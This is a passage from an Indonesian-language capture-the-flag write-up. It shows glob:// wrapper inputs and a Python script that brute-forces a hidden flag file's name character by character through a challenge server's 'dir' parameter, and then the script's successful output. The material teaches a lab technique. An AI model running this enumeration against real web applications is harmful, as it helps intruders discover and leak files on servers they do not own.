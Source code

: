 ```bash
glob:///tmp/chall/flag3*

glob:///tmp/chall/flag4*

glob:///tmp/chall/flag5*

glob:///tmp/chall/flag6*

glob:///tmp/chall/flag7*

glob:///tmp/chall/flag8*

glob:///tmp/chall/flag9*
```
Wooottt terdapat respon `glob:///tmp/chall/flag1*` yang hasil responya menunjukan ukuran size dari file `flag` yaitu `39` byte. 

<a id="codespr1343"></a>

## Brute Force Debug 2

Mari Kita rapikan sedikit kodenya 
```python
import requests

karakter = "abcdefABCDEF0123456789"

clue = list("flag")

url = "http://ctf.iluv.my.id:9999/"

for brute in karakter:
		kirim = str("glob:///tmp/chall/" + "".join(clue) + brute + "*")

		noob = requests.get(
			url,
			params={
				"dir": kirim,
			},
		)
		
		if noob.text == "":
			continue
		else:
			print("Berhasil Mendapatkan karakter : " + brute)
			break
```
```bash
noob@codes:~$ python brute-debug2.py
Berhasil Mendapatkan karakter : 1
```
